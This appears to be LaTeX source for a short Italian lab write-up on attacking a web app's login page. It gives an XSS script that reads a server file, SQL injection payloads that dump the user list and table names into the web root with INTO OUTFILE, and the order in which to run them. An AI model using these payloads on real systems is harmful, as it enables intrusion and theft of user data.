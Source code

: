 \documentclass[12pt]{article}
\begin{document}
\begin{enumerate}
    \item Script per visuaizzare un file del server:\\
    \texttt{<SCRIPT>function test()\{fetch('TEST.txt').\\
    then(response => response.text()).then(data => alert(data))\}test(); \\
    </SCRIPT>}
    \item SQLi per recuperare l'elenco degli users/customers:\\
    \texttt{' or null is null INTO OUTFILE '/var/www/html/USERS.txt' \#}
    \item SQLi per recuperare l'elenco delle tabelle del db: \\
    \texttt{' or null is not null UNION SELECT null, TABLE\_NAME, TABLE\_SCHEMA \\ 
    FROM information\_schema.TABLES WHERE TABLE\_SCHEMA not like \\
    'information\_schema' AND TABLE\_SCHEMA not like 'mysql' AND TABLE\_SCHEMA \\
    not like 'performance\_schema' INTO OUTFILE '/var/www/html/TABLES.txt' \#}
\end{enumerate}

Eseguendo prima gli script di SQLi (2 e 3) nella pagina di login e successivamente 
lo script di XSS (1) \`{e} possibile visualizzare il contenuto dei file USERS.txt 
e TABLES.txt.\\

\begin{figure}[h]
    \includegraphics[scale=0.8]{USERS.png}
    \caption{Elenco users/customers}
\end{figure}

\begin{figure}[h]
    \includegraphics[scale=0.8]{TABLES.png}
    \caption{Elenco tabelle}
\end{figure}
\end{document}
